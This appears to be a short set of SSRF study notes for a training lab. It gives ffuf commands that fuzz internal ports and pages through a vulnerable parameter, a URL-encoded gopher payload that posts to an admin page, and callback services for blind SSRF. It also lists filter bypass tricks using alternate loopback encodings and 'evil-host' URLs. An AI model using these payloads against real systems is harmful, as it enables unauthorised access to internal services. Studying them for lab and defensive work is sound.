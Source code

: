 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md
##### Fuzz to check open ports:
```bash
ffuf -w ports.txt -u http://10.129.82.103/index.php -X POST -d "dateserver=http://localhost:FUZZ&date=2024-01-01"  -H "Content-Type: application/x-www-form-urlencoded"  -fr 'Failed'
```

##### Fuzz to find available page
```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

##### Gopher
Send arbitrary bytes to a TCP socket.
Request:
```
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```
URL encode it:
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
URL generator:
https://github.com/tarunkant/Gopherus

### Blind SSRF

Burp collaborator replacements:
https://app.requestbin.net/
[Interactsh | Web Client](https://app.interactsh.com/#/)
[Webhook.site - Test, transform and automate Web requests and emails](https://webhook.site/#!/view/295f010b-22b7-4a69-a790-2ed9ff4b8a0e)

#### Prevention
https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html

#### Blacklist bypass
- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
* Double URL encode
##### Whitelist bypass
* `https://expected-host:fakepassword@evil-host`
* `https://evil-host#expected-host`
* `https://expected-host.evil-host`
* Open redirects

##### Attack surfaces
* Partial URLs in requests
* XML - SSRF via XXE
* Referer
